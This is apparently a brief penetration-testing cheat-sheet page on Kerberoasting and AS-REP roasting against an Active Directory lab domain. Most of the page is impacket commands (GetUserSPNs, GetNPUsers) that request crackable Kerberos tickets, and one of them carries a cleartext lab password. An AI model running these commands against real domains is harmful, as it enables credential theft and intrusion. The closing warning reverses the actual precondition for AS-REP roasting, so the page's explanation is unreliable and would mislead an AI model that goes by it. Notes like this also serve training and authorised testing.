 ### GetUserSPNs & Kerberoasting

```bash
impacket-GetUserSPNs hacktor.local/abdo:Sql@server -dc-ip 192.168.1.5 -request
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>if ServicePricipalname add</p></figcaption></figure>

### GetNPUsers & Kerberos Pre-Auth - AS-REP Roasting

```bash
impacket-GetNPUsers hacktor.local/abdo -dc-ip 192.168.1.5
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
the attack don't work if  **"Don't Require Kerberos preauthentication**"
{% endhint %}
